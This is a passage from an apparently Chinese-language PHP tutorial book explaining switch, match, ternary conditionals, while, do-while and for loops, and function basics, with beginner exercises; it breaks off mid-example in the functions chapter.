```php
<?php
$day = "Monday";
switch ($day) {
case "Monday":
echo "Today is Monday.";
break;
case "tuesday":
    echo "Today is Tuesday.";
    break;
case "Wednesday":
    echo "Today is Wednesday.";
    break;
default:
    echo "Today is not Monday, Tuesday or Wednesday.";
}
?>
```

在此示例中，我们有 $day（switch）变量，并为每个星期几指定了不同的 "case"。如果 $day 的值与指定的某一天匹配，则将显示与该天关联的消息。如果没有 case 匹配，则将执行 default 块，显示默认消息。在此示例中，由于 $day 的值为 "Monday"，执行此代码将显示句子 "Today is Monday"。

当您需要根据单个表达式的值处理多个 case 时，可以使用 switch 结构。它使您的代码更清晰、更简洁，尤其是当您有一系列需要逐个评估的条件时。当变量具有有限的可能值集并且您需要根据这些值执行不同操作时，switch 结构特别有用。

除了使用 switch 结构外，我们还可以使用条件结构编写前面的代码


## if...elseif...else 如下：

```php
<?php
$day = "Monday";
if ($day == "Monday") {
    echo "Today is Monday.";
} elseif ($day == "Tuesday") {
    echo "Today is Tuesday.";
} elseif ($day == "Wednesday") {
    echo "Today is Wednesday.";
} else {
    echo "Today is not Monday, Tuesday or Wednesday.";
}
?>
```

这两段代码执行的任务基本相同，即检查变量 $day 的值并根据该值显示消息。但是，它们使用了不同的控制结构来实现相同的结果。

总体而言，这两种方法都是有效的，可以根据程序的具体需求和开发者的偏好来使用。

但是，如果我们有几个需要测试的情况，每个情况都需要与单个值进行比较，那么通常更倾向于使用 switch-case 方法。这是因为其结构清晰简洁，能够轻松处理多个情况，而无需每次重复比较。

当要测试的变量只有有限数量的可能值，并且我们希望根据这些值执行不同的代码块时，使用 switch-case 尤其合适。这种方法还避免了代码重复，使代码更易读且更易于维护。

## switch 中的多个情况分组

PHP 的 switch 结构提供了在单个块中对多个情况进行分组的可能性，从而为管理不同条件提供了一种更简洁、更有条理的方法。下面是一个具体示例，用于说明这一想法：

```php
<?php

$day = "Thursday";

switch ($day) {
case "Monday":
case "Tuesday":
case "Wednesday":
    echo "This is the beginning of the work week.";
    break;
case "Thursday":
case "Friday":
    echo "The end of the week is approaching.";
    break;
case "Saturday":
case "Sunday":
    echo "It's the weekend!";
    break;
default:
    echo "Day not recognized.";
}
?>
```

在这个示例中，"Monday"、"Tuesday" 和 "Wednesday" 这几天被归类在同一个块中，因为它们都需要执行相同的操作：指示工作周的开始。换句话说，如果 $day 的值是 "Monday"、"Tuesday" 或 "Wednesday"，程序将显示 "This is the start of the work week" 并退出 switch。

同样，"Thursday" 和 "Friday" 这几天被归类在一起，以表示周末即将到来，而 "Saturday" 和 "Sunday" 这几天被归类在一起，以表示周末。如果没有任何情况匹配，则执行 default 块以指示未识别该天。

在这个示例中，由于变量 $day 的值为 "Thursday"，执行此代码将显示 "The end of the week is approaching"。



## match 控制结构

PHP 8 引入的 **match** 控制结构，为将值与一系列情况进行比较并执行相应代码提供了一种比 switch 结构更简洁、更具表现力的替代方案。它的工作方式与 switch 结构类似，但具有更简化、更具表现力的语法。

match 控制结构的语法如下：

```
match (expression) {
    value1 => instruction1;
    value2 => instruction2;
    ...
    default => default_instruction;
}
```

在此语法中：

- expression：这是你希望求值的表达式。它可以是变量、常量或任意表达式。

- value1, value2, ... 这些是你希望与表达式进行比较的值。每个值对应一个特定的情况。

- instruction1, instruction2, ... 这些是如果表达式与相应的值匹配时要执行的指令。

- default：这是一个可选选项，用于指定如果没有值与表达式匹配时要执行的代码。它相当于 switch 结构中的 "default" 子句。

match 结构会对表达式求值，并将其结果与每个指定的值进行比较。如果找到匹配项，则执行相应的指令。如果未找到匹配项且存在 default 子句，则执行 default 指令。

下面是一个简单示例，说明 match 结构的使用：

```php
<?php
$day = "friday";
$message = match ($day) {
    'Monday' => "Today is Monday.",
    'Tuesday' => "Today is Tuesday.",
    'Wednesday' => "Today is Wednesday.",
    default => "Today is not Monday, Tuesday, or Wednesday."
};
echo $message;
?>
```

在这段 PHP 代码中，我们有一个包含字符串 "friday" 的变量 $day。然后，我们使用 match 结构将变量 $day 的值与几个情况进行比较。每个情况对应一周中的某一天：'Monday'、'Tuesday'、'Wednesday'。如果 $day 的值与其中某个情况匹配，我们将设置变量 $message，为该天分配一条适当的消息。如果 $day 的值与任何这些情况都不匹配，我们将使用 default 情况来设置对应未指定星期几的消息。



最后，我们使用 echo 语句显示变量 $message 中定义的消息。

在 PHP 中使用 match 结构简化了基于变量值检查多个情况的过程，并使其更易读。这通常替代了多个 if 和 else if 语句的使用。

## 将 match 结果保存在变量中

当你希望在代码的后续部分使用结果时，match 控制结构可以将其结果存储在变量中。当你需要在程序的多个位置使用与相应条件关联的值时，这很有用。

使用变量存储 match 结果还可以使代码更具可读性和模块化，因为你可以为变量赋予有意义的名称，以表示与特定条件对应的结果。

下面是一个说明这一想法的示例：

```php
<?php

$state = "California";

$message = match ($state) {
    "California" => "You're in the Golden State!",
    "New York" => "Welcome to the Empire State!",
    "Texas" => "Howdy from the Lone Star State!",
    "Florida" => "Sunshine State greetings from Florida!",
    default => "You're not in California, New York, Texas, or Florida."
};

echo $message;

?>
```

这段 PHP 代码使用新的 match 模式匹配结构，将变量 $state 的值与多个情况进行比较。详细解释如下：

$state = "California"; ：我们将字符串 "California" 赋值给变量 $state。

$message = match ($state) { ... }; ：我们使用 match 结构将 $state 的值与不同的情况进行比较。

"California" => "You're in the Golden State!" ；：如果 $state 的值为 "California"，则消息 "You're in the Golden State!" 会被赋值给变量 $message。

"New York" => "Welcome to the Empire State!" ；：如果 $state 的值为 "New York"，则消息 "Welcome to the Empire State!" 会被赋值给变量 $message。

"Texas" => "Howdy from the Lone Star State!" ；：如果 $state 的值为 "Texas"，则消息 "Howdy from the Lone Star State!" 会被赋值给变量 $message。

"Florida" => "Sunshine State greetings from Florida!" ；：如果 $state 的值为 "Florida"，则消息 "Sunshine State greetings from Florida!" 会被赋值给变量 $message。

default => "You're not in California, New York, Texas, or Florida." ：如果 $state 的值与任何前面的情况都不匹配，则消息 "You're not in California, New York, Texas, or Florida." 会被赋值给变量 $message。

echo $message; ：最后，使用 echo 语句在屏幕上显示变量 $message 中包含的消息。

总之，这段代码根据变量 $state 的值显示不同的消息，使用 match 结构来简化不同情况的检查。


## 三元条件结构



PHP 的三元条件结构提供了一种在单行代码中编写条件语句的简洁高效方式。当您需要评估简单条件并根据该条件的结果返回值时，它们特别有用。

三元条件结构的一般语法如下：

```php
$variable = (condition) ? value_if_true : value_if_false;
```

让我们解释一下此语法：

首先评估条件。

- 如果条件为 true，问号 "?" 后面的值将赋给变量 $variable。
- 如果条件为 false，冒号 ":" 后面的值将赋给变量 $variable。

下面是一个简单示例，说明在 PHP 中使用三元条件结构：

```php
<?php
$age = 20;
$message = ($age >= 18) ? "You are an adult." : "You are a minor";
echo $message;
?>
```

在此示例中：

- 如果年龄大于或等于 18，则消息 "You are an adult." 将赋给 $message 变量。
- 否则，消息 "You are a minor" 将赋给变量 $message。

在此示例中，当变量 $age 的值为 20 时，条件 $age >= 18 被评估为 true。因此，"?" 运算符后面的表达式被赋给 $message 变量，得到以下结果：

You are an adult.

适当使用三元条件结构可以使您的代码更简洁、更易读。但是，为保持代码可读性，重要的是不要过度使用它们。请谨慎地用于简单、直接的条件。

## 结论

在本章关于 PHP 条件结构的内容中，我们探讨了用于控制程序执行流程的各种工具和技术。从简单的 if-else 语句到 switch 和 match 等更复杂的结构，我们了解了如何编写逻辑条件以根据输入数据做出决策。通过理解这些概念，PHP 开发者可以创建更强大、更灵活的脚本，能够适应不同情况并根据应用程序需求生成定制结果。通过明智地使用条件结构，开发者可以使程序更高效、更智能，提供更好的用户体验。

## 练习

### 练习 4

编写一个脚本，检查变量中存储的数字是正数、负数还是零。

### 练习 5

编写一个程序，使用条件指令检查按 100 分制评估的学生技能发展情况。

- 如果能力水平达到 80% 或以上，学生将进入第一组。
- 如果能力水平在 50% 到 80% 之间，学生将进入第二组。
- 如果能力水平在 30% 到 50% 之间，学生将进入第三组。
- 如果能力水平低于 30%，学生将不及格。

### 练习 6

编写一个条件脚本，测试一个数字是否同时是 3 和 5 的倍数。

### 练习 7

编写一个程序，使用 switch 语句根据数字显示星期（例如星期一）。

- 第 1 天将被视为星期一
- 如果数字不在 1 到 7 之间，默认显示 "invalid number"

## 第 3 章

### PHP 中的循环

欢迎来到 PHP 循环章节！循环是程序开发中不可或缺的工具，因为它们使指令可以根据特定条件重复执行。无论您是初学者还是经验丰富的开发人员，本章都将指导您了解 PHP 中可用的不同类型的循环，向您展示如何有效地使用它们来自动化任务、浏览数据集合并创建更动态的程序。

本章将学习的循环包括：

- while 循环
- do-while 循环
- for 循环

我们将重点介绍实现每个循环的用法、优点和最佳实践。学习完这些循环后，您将发现如何使用它们来浏览和操作数据。

准备好深入 PHP 循环迷人的世界了吧！在这里，您将学习如何以精确优雅的方式操作代码的执行流程。掌握循环后，您将能够创建更动态、更强大的 PHP 应用程序。那么，废话不多说，让我们一起探索 PHP 循环的内部运作机制！

### while 循环

**while** 循环是 PHP 中的一种控制结构，它允许您在指定条件为 true 时重复执行一段代码。其工作原理如下：

- **步骤 1：** 初始化条件：在进入 **while** 循环之前，定义一个条件。此条件是一个布尔表达式，在每次循环迭代之前都会进行评估。
- **步骤 2：** 条件评估：评估条件以确定其为 true 还是 false。
- **步骤 3：** 如果条件为 true（即返回 true），则执行循环内部的代码块，即“指令”块。执行这段代码后，程序返回步骤 2 并重新评估条件。
- **步骤 4：** 如果条件为 false（即返回 false），while 循环结束，程序执行继续在循环之后进行。



要有效地使用 while 循环，必须确保指定的条件最终会在某个时刻变为 false，否则您可能会创建一个无限循环。还必须在代码块中正确更新条件中使用的变量，以确保条件最终会变为 false。

简而言之，**while** 循环允许您在指定条件保持 true 时重复执行一段代码。它是在 PHP 程序中创建灵活控制结构的强大工具。

**while** 循环的基本语法如下：

```php
while (condition) {
// Block of code to execute while condition is true
}
```

下面是一个说明 while 循环的示例：

```php
<?php
$counter = 1;

// Use the while loop to display numbers from 1 to 10
while ($counter <= 10) {
echo "The counter is: $counter <br>";
$counter++;
}
?>
```

在此代码中，我们将 $counter 变量初始化为 1。然后使用 while 循环显示 1 到 10 的数字。

**步骤 1：** 将 $counter 变量初始化为 1。

**步骤 2：** while 循环中指定的条件是 $counter <= 10。只要此条件为 true，循环内部的代码块就会被执行。

**步骤 3：** 每次循环迭代时，都会执行块内的代码。在我们的情况中，我们使用 echo 显示当前计数器值。然后，在每次迭代结束时，我们使用 ++ 运算符将 $counter 的值增加 1。这确保了计数器在每次迭代中都会逐步增加。

重复：只要条件 $counter <= 10 保持 true，步骤 2 到 3 就会重复。一旦 $counter 达到 11，条件就变为 false，而 while 循环结束。

此代码将使用 while 循环显示 1 到 10 的数字。

```
The counter is: 1
The counter is: 2
The counter is: 3
The counter is: 4
The counter is: 5
The counter is: 6
The counter is: 7
The counter is: 8
The counter is: 9
The counter is: 10
```

while 循环非常灵活，可以在各种场景中使用。当您需要根据条件无限次执行一段代码时，它特别有用。

### do...while 循环

do...while 循环与 while 循环类似，但有一个重要区别：条件是在代码块执行后进行评估的。这意味着代码块总是至少执行一次，即使条件从一开始就是 false。

do...while 循环的工作原理如下：

- **步骤 1：** 首先，循环内部的代码块（指令）会在不检查条件的情况下先执行一次。
- **步骤 2：** 检查条件：代码块执行后，评估 while 关键字后面指定的条件。
- **步骤 3：** 如果条件为 true，则重新执行代码块（指令）。
- **步骤 4：** 否则，循环结束。

重复：只要 **while** 关键字后面指定的条件保持 true，步骤 1 到 3 就会重复。


开始

1

指令

2

3

真

条件

假

4

退出

do...while 循环的一般语法如下：

```
do {
  // Block of code to execute
} while (condition)
```

以下是如何在 PHP 中使用 do...while 循环的示例：

```
<?php

$counter = 1;

do {
  echo "The counter is: $counter <br>";
  $counter++;
} while ($counter <= 10);

?>
```

在此示例中，$counter 变量被初始化为 1。

- 接下来，执行花括号内的代码块。它显示计数器值。

- 执行代码块后，会对条件 `$counter <= 10` 求值。只要该条件为真，就会重新运行代码块。
- 每次迭代时，计数器都会递增。
- 循环重复，直到条件变为假，即当 `$counter` 达到值 11 时。

由于条件在每次迭代结束时检查，因此即使初始条件为假，代码块也会至少执行一次。

此代码返回的结果与之前使用 while 循环的示例完全相同。

但请注意，两个循环的主要区别在于：do...while 循环保证代码块至少执行一次，而 while 循环如果条件从一开始就为假，则可能根本不执行代码块。

为说明区别，假设我们将变量 `$counter` 初始化为 20。在这种情况下，条件（`$counter <= 10`）从一开始就为假，因为 `$counter` 初始化为 20，大于 10。

因此，在 while 循环的情况下，循环内的代码块永远不会被执行。

然而，在 do...while 循环的情况下，do...while 循环内的代码块会至少执行一次，因为条件在代码块执行后才求值。即使条件（`$counter <= 10`）从一开始就为假，代码块也会在检查条件之前先执行一次。因此，即使 `$counter` 初始化为 20，消息也会显示一次。

## for 循环

for 循环是一种用于重复执行指定次数代码块的控制结构。当你预先知道希望执行的迭代次数时，它特别有用。

**for** 循环的一般语法如下：

```
for (initialization; condition; incrementing) {
// Block of code to execute
}
```

- **初始化**：这是你初始化循环控制变量的地方。

- **条件**：在每次循环迭代之前都会对该条件求值。如果为真，则执行代码块。否则，循环结束。

- **递增**：此步骤会在每次迭代时修改循环控制变量。

请注意，这三个组件由分号 (;) 分隔。

**for** 循环提供了一种简洁的方式来编写需要初始化、条件和递增的循环。

让我们来看一个具体示例，以更好地了解其工作原理。假设我们想要显示 1 到 5 的数字。

```
<?php
for ($i = 1; $i <= 5; $i++) {
echo $i. "<br>";
}
?>
```

在此示例中：

- 初始化是 $i = 1，在此我们将控制变量 $i 初始化为 1。

- 条件是 $i <= 5，只要变量 $i 小于或等于 5，循环就会继续运行。

- 递增是 $i++，在此我们在每次迭代时递增 $i 的值。

此代码的结果将是显示 1 到 5 的数字。



让我们来看另一个示例，以显示数字 7 的乘法表：

```
<?php
for ($i = 1; $i <= 10; $i++) {
$result = 7 * $i;
echo "7 x $i = $result <br>";
}
?>
```

在此代码中，for 循环的每次迭代都会计算 7 与 $i 值的乘积，并将结果存储在变量 $result 中，然后显示结果。

因此，运行此代码会显示 7 的乘法表。



## 示例

以下示例说明了如何使用 PHP for 循环生成不同层级的 HTML 标题标签。循环遍历 1 到 6 的标题级别，并显示带有相应标题级别的句子。

```
<?php
for ($i = 1; $i <= 6; $i++) {
    echo "<h$i>Here is the $i level title</h$i>";
}
?>
```

执行此代码会给出以下结果：

# # 这是第 1 级标题

## #### 这是第 2 级标题

### ######### 这是第 3 级标题

#### ################ 这是第 4 级标题

##### ######################### 这是第 5 级标题

###### #################################### 这是第 6 级标题

比较 while 循环和 for 循环

虽然 while 和 for 循环的语法不同，但它们都承担相同的角色，即只要给定条件为真，就重复执行一段代码。但是，在某些情况下，可能会偏爱其中一个，具体取决于上下文。

一般而言，for 循环的使用频率高于 while 循环，但这也可能取决于单个开发人员的偏好和习惯。

确实，for 和 while 循环都执行相同的功能，即只要条件满足，就重复执行一段代码。但是，何时应该选择其中一个而非另一个？

答案很简单：如果预先知道所需的重复次数，最好使用 for 循环。另一方面，如果重复次数不确定且取决于条件，则 while 循环更合适。这使你可以保持更灵活的循环结构，适用于重复次数未预先定义的情况。

## 总结

要决定使用哪种类型的循环，重要的是确定迭代次数是否预先已知。如果是这种情况，通常偏好使用 for 循环。另一方面，如果代码块需要至少执行一次，则 do...while 循环更合适。最后，如果代码块仅基于初始条件执行，则通常使用 while 循环。选择最适合每种情况具体需求的循环至关重要。以下图示说明了 for、do...while 和 while 循环的用法。

### 总结

预先知道代码块将执行的次数
- 是：FOR
- 否：
  - 代码块必须至少执行一次：Do...while
  - 代码块仅在条件满足时才应执行：WHILE

### 结论

总而言之，本章关于 PHP 循环的内容让我们发现了管理程序中重复操作的强大工具。我们探讨了 while、do...while 和 for 循环，以及它们的差异和适用场景。这些结构让我们有灵活性，可以按固定次数执行代码块，或在满足条件时执行。

我们还讨论了在某些情况下，根据要解决问题的复杂程度，一个循环可能比另一个更合适。通过理解每个循环的细微差别并在不同场景中练习它们的使用，你将能够编写更高效、更易读的程序。

需要注意的是，本章未介绍 **foreach** 循环，它将在数组章节中详细介绍。在此期间，请继续探索和实验 **while**、**do...while** 和 **for** 循环，因为它们是 PHP 开发工具箱中的基本要素。

## 练习

### 练习 8：

编写一个程序，使用 while 循环显示 10 到 50 的整数。

### 练习 9

使用 for 循环，编写一个程序来计算 1 到 20 所有整数的乘积（1x2x3x4x5x......x19x20）。然后显示结果。

### 练习 10

使用 for 循环编写 7 的乘法表（1 到 100 的所有数字）。此表应以无序列表的形式呈现。

### 练习 11

编写一个程序来计算以下求和：

```
1+3+3^2 + 3^3 + 3^4 + 3^5 + ..... ... + 3^20
```


## 第 4 章：PHP 中的函数与生成器

欢迎阅读关于 PHP 函数的章节！函数是任何编程语言的重要组成部分，PHP 也不例外。它们使代码能够以模块化的方式组织，高效复用，并变得更易读和易于维护。

在本章中，我们将深入探讨 PHP 函数的不同方面。我们将从函数的定义和使用入手，包括它们的声明、调用以及对参数和返回值的处理。接着，我们将学习变量和函数的作用域，以及 PHP 预定义函数的使用。

我们还将深入更高级的主题，例如递归函数、匿名函数、带默认参数的函数以及带可变数量参数的函数。我们将了解如何包含包含函数的外部文件，以及如何实施良好的函数命名和文档编写规范。

我们将通过实际示例说明函数的实用性，展示它们如何用于解决 PHP 开发中遇到的常见问题。无论您是初学者还是经验丰富的开发者，本章都将为您提供掌握在 PHP 中创建和使用函数艺术所需的知识和技能。那么，让我们一起深入这段在 PHP 中探索函数的精彩旅程！

## PHP 函数简介

函数是可以定义一次并在脚本中多个位置，甚至在多个不同脚本中重复使用的 PHP 代码块。它们使相似的指令和操作能够被组合在一起，使代码更易于管理和维护。在 PHP 中，函数在程序的组织和模块化方面发挥着关键作用。

### 函数的定义

PHP 中的函数是一组执行特定任务的指令，可以接受参数作为输入来自定义其行为。它还可以在需要时返回一个输出值。函数的定义包括一个 **名称**、一组 **可选参数** 以及包含要执行的 **指令** 的主体。

### 使用的好处

**可重用性：** 函数通过将相似功能组合在一起来避免代码冗余，从而使在不同上下文中重复使用代码变得更加容易。

**模块化：** 通过将代码划分为不同的函数，代码变得更易于管理、理解和维护。

**抽象：** 函数抽象了实现细节，使代码更易于理解和修改。

**组织：** 函数可以用于通过将相关函数组合在一起来组织代码，使代码更清晰、更易读。

## PHP 函数的一般结构

PHP 函数的一般结构包括以下元素：

```php
function function_name(param1, param2, ...) {
// Block of code to execute
}
```

- `function`: 在 PHP 中用于声明函数的关键字。
- `function_name`: 函数的名称，在脚本中必须是唯一的。
- `(param1, param2, ...)`: 函数可以作为输入接受的可选参数列表。
- `{ }`: 指示函数体开始和结束的分隔符，其中定义了要执行的指令。

PHP 函数的一般结构简单而强大，为在您的应用程序中创建定制且可复用的功能提供了极大的灵活性。

## 声明和使用函数

### 无参数函数

如上所述，在 PHP 中，函数是使用 **function** 关键字声明的，后跟函数名和括号，括号中可能包含可选的函数参数。有些函数不需要参数即可执行其任务。它们在括号中不带参数定义。

以下是无参数函数的示例：

#### 示例：

```php
<?php
function displayMessage() {
    $message = "Hello and welcome to the world of PHP.";
    echo $message;
}
?>
```

这段代码定义了一个名为 **displayMessage** 的函数，该函数不接受参数，声明一个包含字符串 "Hello and welcome to the world of PHP." 的变量 $message，然后使用 echo 显示该变量。但是，如果您运行这段代码，您不会得到任何结果！事实上，在此阶段，尽管函数已定义，但它不会自动执行，直到在程序中的某个位置被调用。函数调用可以在代码的多个位置进行，从而允许相同的代码块在不同位置重复使用，而无需每次重写。换句话说，需要函数调用来执行其包含的代码块。

要调用 displayMessage() 函数，只需在脚本中（函数外部）添加函数调用行，如下所示：

```php
<?php
function displayMessage() {
    $message = "Hello and welcome to the world of PHP.";
    echo $message;
}

displayMessage();
?>
```

执行此代码会产生以下结果：



### 带参数的函数

参数是在调用函数时传递给函数的值。这些值可以在函数内部用于执行操作。以下是接受两个参数的函数示例：

```php
<?php
//Definition of the function that calculates the sum
function addition($a, $b) {
  $sum = $a + $b;
  echo "The sum is: $sum ";
}

addition(10, 20); // Call function with arguments
?>
```

在此示例中，我们定义了一个名为 addition() 的函数，它接受两个参数 $a 和 $b，表示要相加的两个数字。在函数内部，我们将两个参数相加并将结果存储在变量 $sum 中。然后，我们使用 echo 语句显示结果以及一条指示计算出的和的消息。

定义函数后，我们调用它，传递两个值，10 和 20，作为参数。函数将这两个值相加并显示结果 "The sum is: 30"。



### 从函数返回值

函数可以在被调用的位置使用 **return** 关键字返回一个值。以下是计算圆柱体积的函数示例：

```php
<?php
//Definition of the function that calculates the volume
function cylinder_volume($radius,$height) {
	$volume = M_PI*$radius**2*$height;
	return $volume;
}
echo cylinder_volume(3,10);
?>
```

在此示例中，cylinder_volume 函数以两个参数作为输入：圆柱的半径和高度。然后它使用公式 \( \pi \times radius^2 \times height \) 计算圆柱的体积，其中 \(\pi\) 是数学常数 \(\pi\)。结果存储在变量 `$volume` 中。然后函数使用 **return** 关键字返回这个体积值。

当使用 echo cylinder_volume(3, 10) 调用函数时，它会计算半径为 3 个单位、高度为 10 个单位的圆柱的体积，然后使用 echo 命令显示这个体积，在此示例中给出的体积为 **282.74** 平方单位。

让我们看另一个示例，以表明函数可以被调用任意次数：

```php
<?php
//Definition of the function that returns the double of a number
function double($number) {
return $number * 2;
}
?>
```

一旦函数已定义，就可以在脚本中随时调用它，并调用所需的任意次数。

```php
<?php
function double($number) {
return $number * 2;
}

//Function calls
